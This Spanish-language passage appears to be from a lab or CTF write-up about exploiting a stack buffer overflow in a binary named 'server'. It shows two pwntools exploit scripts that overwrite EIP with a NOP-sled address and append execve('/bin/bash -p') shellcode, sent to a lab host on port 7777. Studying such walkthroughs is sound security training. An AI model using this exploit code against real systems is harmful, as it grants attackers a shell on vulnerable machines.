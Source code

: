 le doy permisos de ejecucion, corro el binario nuevamente con el depurador y ejecuto el exploit

![image](https://github.com/user-attachments/assets/3065fc5a-da60-40ad-9bca-56fa5abe07d7)

en efecto tengo el control del registro `EIP`, ahora enviare NOP's despues del `EIP` para localizar las direcciones de memorias en la que se almacenan (agrego tambien la shellcode que usare)



`Exploit`
```python
from pwn import *
def explotation():
    OFFSET = 76
    BUFF = b"F"*OFFSET
    #SHELLCODE
    shellcode = b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
    #SHELLCODE
    EIP =  b"MMMM"

    host = "172.17.0.1"
    port = 7777

    payload = BUFF + EIP + b"\x90"*150
    l = remote(host, port)
    l.sendline(payload)

if __name__ == '__main__':
    explotation()
```

ahora ejecuto el binario `server` con el depurador y lanzo el exploit

![image](https://github.com/user-attachments/assets/1f0f3576-04c4-40ea-8102-fa6d2610ec13)

luego inspecciono la memoria para localizar las direcciones donde se alojan los NOP's

![image](https://github.com/user-attachments/assets/2e195d40-cda1-48c5-9977-78b987e542ce)

lo mas recomendable es hacer uso de una direccion de memoria intermedia por lo que hare uso de `0xffffcc10` y vuelvo a modificar el exploit

```python
from pwn import *
def explotation():
    OFFSET = 76
    BUFF = b"F"*OFFSET
    #SHELLCODE
    shellcode = b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
    #SHELLCODE
    EIP =  b"\x10\xcc\xff\xff"  
    host = "172.17.0.1"
    port = 7777

    payload = BUFF + EIP + b"\x90"*150 + shellcode
    l = remote(host, port)
    l.sendline(payload)

if __name__ == '__main__':
    explotation()
```
